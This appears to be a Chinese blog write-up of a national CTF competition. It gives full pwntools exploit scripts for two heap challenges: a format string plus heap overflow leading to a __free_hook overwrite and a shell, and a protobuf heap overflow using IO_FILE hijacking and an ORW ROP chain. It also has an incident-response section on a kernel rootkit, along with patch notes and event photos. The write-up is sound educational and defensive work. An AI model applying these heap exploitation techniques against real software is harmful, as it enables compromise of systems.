这把Pwn出了三个菜单，还有一个php_master是web-pwn,全程没管。比赛中最幽默的是post_quantum，一直缺库，然后’灵机一动’将libm.so.6直接移动到usr/lib下，然后gdb就用不了了。。形成了kali虚拟机能调试但不能运行，而我的ubuntu主力机能运行而不能调试的滑稽局面，幸好比赛前打了快照。
另外感觉每次国赛考的题目都很固定，毕竟时间比较短还断网，出的题也不能太难（）。因此在复盘的同时稍微回顾一下先前已经遗忘的知识。
压汇编还是太慢了，还是应该多多练习。总体题目不难，但是在很短的时间+高压力下需要强大的心态+熟练的基本功才能打出输出。
Pwn
Typo
开局是一个非常简单的增删改菜单，没有show函数。

问题出在edit函数中。

在edit函数编辑的时候，snprintf的参数顺序反了，同时在堆块中除了glibc自己的size位，程序自己在每一个堆块的user_space起始的8个byte放入了堆块的大小，原则上是当输入的size过大时会强行将size改回来，但是s的大小是0x100，因此当申请小堆块的时候，是可以在这个阶段改到下一个堆块的，从而发生了堆溢出。
FIX
交换参数的位置，然后补一下将buffer的地址放到rcx中的汇编即可。


Break
首先利用格串漏洞来越界改写下一个堆块自己的size位(不是glibc的size位)，然后edit下一个堆块时就可以正常移除改写。因为没有show函数，因此想办法将一个堆块同时放入tcache和unsortedbin，然后partial writefd的末位字节为stdout，然后打IO_FILEleak。
问题在于snprintf遇到\x00会截断，因此可以用栈上的\x00字节的offset来替换。

即
def encode(payload):
return payload.replace(b'\x00',b'%39$c')+b'\x00'
对于leak_libc来说
可以首先释放两个堆块进入tcache，然后partial write其中一个堆块的fd末位字节，将tcache的fd抬至未来将要放入unsortedbin堆块的附近，这样再申请回来，就可以得到同一个地址的两个指针。然后用劫持tcache的fd打__free_hook为system，再释放一个/bin/sh\x00堆块即可，这里为了方便用的也是堆溢出的思路，因为最初的8个byte被size占据了。
一个IO_FILE结构体如下
struct _IO_FILE {
int _flags; // 文件状态标志（高位是 _IO_MAGIC，其余是标志位）
char* _IO_read_ptr; // 读缓冲区当前读取位置
char* _IO_read_end; // 读缓冲区结束位置
char* _IO_read_base; // 读缓冲区基地址
char* _IO_write_base; // 写缓冲区基地址
char* _IO_write_ptr; // 写缓冲区当前写入位置
char* _IO_write_end; // 写缓冲区结束位置
char* _IO_buf_base; // 缓冲区基地址
char* _IO_buf_end; // 缓冲区结束位置
char *_IO_save_base; // 保存缓冲区基地址
char *_IO_backup_base; // 备份缓冲区基地址
char *_IO_save_end; // 保存缓冲区结束位置
struct _IO_marker *_markers; // 标记指针，用于跟踪缓冲区的读写位置
struct _IO_FILE *_chain; // 链接到下一个文件结构，用于文件链表
int _fileno; // 文件描述符
int _flags2; // 额外的文件状态标志
__off_t _old_offset; // 文件偏移（旧版，已弃用）
unsigned short _cur_column; // 当前列号（用于支持列计算）
signed char _vtable_offset; // 虚函数表偏移量
char _shortbuf[1]; // 短缓冲区（用于小量数据的快速操作）
_IO_lock_t *_lock; // 文件锁（用于多线程环境下的文件流操作保护）
};
stdin、stdout和stderr是C语言中标准输入、标准输出和标准错误流的文件指针。它们是通过_IO_FILE结构体实现的，并在程序启动时由系统自动初始化，
iofile leak只需要将flag设置为 0xfbad1800 ，目的是让他冲掉缓冲区，将内容输出出来
然后 read_ptr,read_end,read_base这三项随意，设置为0即可，同时修改好 write_base write_ptr 和 write_end,一般只需要修改_IO_write_base，题目中可以找一找附近有libc地址的，然后将_IO_write_base partial write过去即可。当程序调用_IO_2_1_stdout的时候就会输出_IO_write_base到_IO_write_ptr之间的内容。
from pwn import *
context.arch = "amd64"
context.log_level = "debug"
context.terminal =['tmux','splitw','-h']
file_path = "./pwn"
libc_path = "./libc-2.31.so"
remote_ip = ""
remote_port = 0
libc = ELF(libc_path)
def cmd(i, prompt=b'>> '):
io.sendlineafter(prompt, str(i))
def add(index,size):
cmd(1)
io.sendlineafter(b"Index: ",str(index))
io.sendlineafter(b"Size: ",str(size))
def edit(idx,fmt,data):
io.sendlineafter(">> ","3")
io.sendlineafter("dex",str(idx))
io.sendafter("size of",fmt)
io.sendafter("say",data)
def show(idx):
pass
def delete(idx):
cmd(2)
io.sendlineafter(b"Index: ",str(idx))
def encode(payload):
return payload.replace(b'\x00',b'%39$c')+b'\x00'
gdb_args = '''
b *$rebase(0x1684)
'''
default = flat(0x1000) # default fmt because i am lazy
# delete(10)
def pwn():
add(0, 0x80)
add(1, 0x20)# overflow
add(2, 0x80) # target
add(3, 0x80)
add(6, 0x200)
add(7, 0x200)
add(8, 0x200)
add(9, 0x80)
add(13, 0x80)
add(14, 0x80)
add(15, 0x80)
add(16,0x80)
delete(3)
delete(2)
# edit 0 to change the chunk 1's size
payload = flat(
b'a'*0x88,
0x30,
0x1000
)
edit(0,encode(payload),b'sb')
# 在这之后 chunk1中的自定义size位就变成了1000 可以edit一个很大的区间
edit(1,flat(
0x1000 # 随便写点什么
),flat(
b'a'*0x20,
0x91, # prev_size
b'\x60', # partial_write the tcache fd to another existed chunk
))
add(4,0x80) # recover tcache origin number 2
add(5,0x80) # recover tcache origin number 3 actually xxxx60
delete(9)
delete(4) # 4->tcache
# change the 4's size to free into unsorted bin
edit(1,flat(
0x1000
),flat(
b'a'*0x20,
0x541,
))
delete(5)
# partial write
edit(1,default,flat(
b'a'*0x20,
0x541,
b'\x90\x96' # stdout -0x10
))
add(11,0x80)
add(12,0x80) # stdout
edit(12,flat(
0x50
),flat(
0,
0xfbad1800,0,0,0,'\x00'
))
leak_ = io.recv(8)
leak_ = io.recv(8)
leak_libc = u64(io.recv(8))
success(hex(leak_libc))
libc_base = leak_libc - 0x1ec980
success(hex(libc_base))
libc.address = libc_base
free_hook = libc.sym['__free_hook']
success(hex(free_hook))
delete(16)
delete(15)
payload = flat(
b'z'*0x88,
0x90,
0x1000
)
# 如法炮制
edit(13,encode(payload),b'sb')
edit(14,flat(
0x1000
),flat(
b'z'*0x80,
0x90,
free_hook-0x8 # pass the size
))
gdb.attach(io,gdb_args)
add(17,0x80)
# edit(17,flat(0x1000),b"/bin/sh\x00")
add(18,0x80)
edit(18,flat(0x50),p64(libc.sym['system']))
edit(14,flat(
0x1000
),flat(
b'z'*0x80,
0x90,
b'/bin/sh\x00'
))
delete(17)
io.sendline("cat /flag")
flag = io.recvuntil(b"}")
if flag != b'':
success(flag)
io.interactive()
return libc_base
if __name__ == "__main__":
while True:
io = process(file_path, aslr=True)
try:
libc_base = pwn()
if libc_base == 0:
continue
success(hex(libc_base))
success("success")
exit()
break
except KeyboardInterrupt:
exit()
except:
io.close()
Prompt
一个c-proto菜单堆，洞很明显，在edit中size交给了用户进行输入，因此存在堆溢出。然而比赛中我没有protoc,只能用python生成,然而试了很多次都没法正常交互，于是放弃了。。
fix

只需要将17行改为 input_size = size[index]就可以控制好size大小，压一下前面的汇编。
或者将后面比较的size改成size[index]也可以。

break
首先需要逆向protobuf,对于C-proto需要手动逆向。
sudo apt update
sudo apt install -y protobuf-compiler
protoc --version
首先找到需要用到的fields

然后新建一个 devicemsg.proto
fields结构题如下
00000000 ProtobufCFieldDescriptor struc ; (sizeof=0x14, mappedto_19)
00000000 ; XREF: .data.rel.ro:stru_9B60/r
00000000 ; .data.rel.ro:0000000000009BA8/r ...
00000000 name dq ? ; offset
00000008 id dd ?
0000000C label dd ?
00000010 type dd ?
00000014 ProtobufCFieldDescriptor ends
- name，名字，变量名
- id，序号，即在message结构体中的顺序（等价于位置）
- label，前面标记的required等，这里是proto2的语法，proto3不知道有没有这一项（本人未经验证）
- type，数据类型，string还是int64等label和type都是枚举类型，占4个字节。具体数值与类型的对应关系，可以自己创一个文件现查,下面列出来枚举类型。
以Option为例:

分别是 1 3 0 对应过来就是
这个字段顺序排在第一，是none,int32，以此类推还原完整个fields
然而好像proto3并不需要类型 因此不需要指定repeated等
syntax = "proto3";
package mypackage;
message devicemsg {
int32 option = 1;
int32 chunk_sizes = 2;
int32 heap_chunks_id = 3;
bytes heap_content = 4;
}
然后输入prompt protoc --python_out=. devicemsg.proto生成devicemsg_pb2.py
最后按照题目要求写好交互
import devicemsg_pb2
def add(size,text=b'123',idx=0):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 1
data.chunk_sizes = size
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def delete(idx,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 2;
data.chunk_sizes = size
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def edit(idx,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 3;
data.chunk_sizes = size
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def show(idx,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 4;
data.chunk_sizes = 1
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def exit_(idx=0,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 5;
data.chunk_sizes = 1
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
漏洞很简单，是一个堆溢出，稍微麻烦一点的是他堆块很混乱，可以直接一次性申请好所有堆块，这样他们是挨着的。
第一次edit一个堆块改到下一个堆块的size，让他进入到unsortedbin中，然后算好指针的位置，比如每一个堆块大小是0x110，那么就可以改为0x441，这样可以用下一个堆块指针拿到libc地址。
题目开了沙箱，要orw。对于以前libc2.35的pop rdx, pop rbx, ret;的gadget不复存在。
但libc2.39的gadgets中存在


因此可以通过控制r13间接控制rdx。
此外还存在gadget可以直接控制好sendfile的count参数(r10寄存器)，同时直接将rax设置为sendfile调用号

题目中可以exit，因此随便找一个链子打iofile
或者通过__environ泄露栈地址，然后挟持栈打rop也可以，但是需要控两次tcache的fd，懒了就不写了。。
exp:
from pwn import *
from pwncli import *
context.arch = "amd64"
context.log_level = "debug"
context.terminal =['tmux','splitw','-h']
file_path = "./pwn"
libc_path = "./libc.so.6"
remote_ip = ""
remote_port = 0
libc = ELF(libc_path)
# orw
io = process(file_path)
# io = remote(remote_ip, remote_port)
def house_of_some_read(read_from, len, _chain):
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x40 | 0x1000
fake_IO_FILE.fileno = 0
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = read_from
fake_IO_FILE._IO_write_ptr = read_from+len
fake_IO_FILE.chain = _chain
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps'] - 0x8
return bytes(fake_IO_FILE)
def house_of_some_write(write_from, len, _chain):
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x800 | 0x1000
fake_IO_FILE.fileno = 1
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = write_from
fake_IO_FILE._IO_write_ptr = write_from + len
fake_IO_FILE.chain = _chain
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps']
return bytes(fake_IO_FILE)
import devicemsg_pb2
def add(size,text=b'123',idx=0):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 1
data.chunk_sizes = size
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def delete(idx,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 2;
data.chunk_sizes = size
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def edit(idx,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 3;
data.chunk_sizes = size
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def show(idx,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 4;
data.chunk_sizes = 1
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
def exit_(idx=0,size=0,text=b'123'):
io.recvuntil('Your prompt >> ')
data = devicemsg_pb2.devicemsg()
data.option = 5;
data.chunk_sizes = 1
data.heap_chunks_id = idx
data.heap_content = text
raw = data.SerializeToString()
pay = p32(len(raw)) + raw
io.send(pay)
gdb_args = '''
b *$rebase(0x1B3C)
'''
add(0x100, b'1')
add(0x100, b'2')
add(0x100, b'3')
add(0x100, b'4')
add(0x100, b'5')
add(0x100, b'6')
add(0x100, b'7')
add(0x100, b'8')
# overlap four chunks
payload = flat(
b'a'*0x108,
0x441)
edit(1,len(payload),payload)
delete(2) # 2 into unsorted
add(0x100,b'8') # cut to 3 which idx is 2
show(3)
io.recvuntil(b"content: ")
leak_libc = u64(io.recv(6).ljust(8,b'\x00'))
# io.recvline()
success(hex(leak_libc))
libc_base = leak_libc - 0x203b20
libc.address = libc_base
# list_all = libc.sym['_IO_list_all']
io_file = libc.sym['_IO_list_all']
add(0x100,b'9') # 8
delete(8) # 3 is available
show(3)
io.recvuntil(b"content: ")
leak_heap = u64(io.recv(5).ljust(8,b'\x00'))
heap_base = (leak_heap << 12 )
heap_base = heap_base - 0x7000
success(hex(heap_base))
delete(2)
payload = payload = flat(
b'a'*0x108,
0x111,
leak_heap ^ io_file
)
write_addr = heap_base + 0x1000
edit(1,len(payload),payload)
fake_io_file_addr = heap_base +0x7c40
pad = house_of_some_read(write_addr, 0x200 ,write_addr)
edit(6,len(pad),pad)
dd = b'/flag\x00\x00'
edit(5,len(dd),dd)
payload = house_of_some_write(libc.sym['__environ'], 0x8, write_addr + 0xe0)
payload += house_of_some_read(write_addr + 0xe0 * 2 , 0x200 , write_addr + 0xe0 * 2)
add(0x100,flat(
fake_io_file_addr
))
add(0x100,flat(
fake_io_file_addr
))
success(hex(len(pad)))
exit_()
io.send(payload)
leak_stack = u64(io.recv(6).ljust(8,b'\x00'))
success(hex(leak_stack))
target_stack = leak_stack - 0x340
attack = house_of_some_read(target_stack, 0x200, heap_base + 0xffff)
attack += b"/flag\x00\x00"
gift['io'] = io
gift['libc'] = libc
io.send(attack)
pop_rdi = libc_base + 0x000000000010f75b
pop_rsi = libc_base + 0x0000000000110a4d
pop_r12 = libc_base + 0x0000000000110951
mov_r13_syscall = libc_base + 0x000000000009d14c
pop_rax = 0x00000000000dd237 + libc_base
syscall = 0x00000000000288b5 +libc_base
open_addr = libc.sym['open']
read_addr = libc.sym['read']
write_addr = libc.sym['write']
ret = 0x000000000002882f + libc_base
pop_rcx = 0x00000000000a877e + libc_base
mov_r10_rcx_sendfile = 0x000000000011bb84 + libc_base
orw_chain = flat(
pop_rdi, heap_base + 0x12a0,
pop_rsi,0, # rdx很好 是0x200 不用控
open_addr,
pop_rdi,1,
pop_rsi,3,
pop_r12,0x200,
pop_rcx,0x100,
mov_r10_rcx_sendfile # 直接控counts
)
success(hex(len(orw_chain)))
gdb.attach(io,gdb_args)
io.send(orw_chain)
io.interactive()
综合渗透
应急响应
又是一次找屎大赛，发了磁盘检材，但是又不是纯粹的取证。。
flag1
起初打算用netstat -tulnp 来看，然后还尝试交了好几次的dns，最后被队友纠正，笑死我了。。
后来知道马hook了kernel，直接是抓不到的，得用tcpdump -i eth1 -A tcp从网卡抓（注意别抓错了）。ip会3-5分钟出现一次，因此只需要慢慢找即可。
flag{md5(192.168.57.203:4948)}
flag2&flag3
需要小马文件的md5，起初思路歪了，因为在取证大师中见到好多已经删除的文件，然后查看日志有一个rkt.tar.gz，用disk-genius恢复了一下，然后恢复错了，恢复出一个ELF开头的文件，笑死我了。
后来的思路是查看系统的请求root权限的日志。发现了

当时感到很奇怪，因为没人会好端端给一个elf +x。除非他是木马，但是赛场上另一个好兄弟用find,ls找了半天，没发现，于是就又去捣鼓恢复文件了。。
最后又回到这，偶然cat 查看了一下，发现打印出了一大堆。。。 直接下载还下载不了，果断复制一份到根目录，然后传下来算哈希，最后过了。 不过最后时间不够了，没工夫逆向。
最后逆向出来是192.168.57.207/wp_content/upload/2025/02/agent，这是木马的分发站。
flag3也是在/etc/systemd/system找到一个被删除的文件，然后内容是

因此这个system-upgrade.ko就是大马，他hook了kernel，这也是前面如此麻烦的罪魁祸首。
Photos
自由的灵魂总被狭小的校园束缚着，本着野花总比家花香的特点，于是去哪个学校都觉得宏伟大气。
签到之后看到的日落
不过校园小有校园小的好处，大了像我这种懒b是万万不会去上课的。
比赛没有茶歇，急了，但是有奖金，在感慨二楼厕所的狭窄以及旁边健身氛围的浓厚之后，我默默的爬上了三楼，意外觉得下面的场景很壮观，一张张桌子犹如豆腐块一样放在案板上，所有人绞尽脑汁做题，同时联想到外面的观众入口，总觉得是在看猴。。

以及真正的三折叠，怎么折，都有面。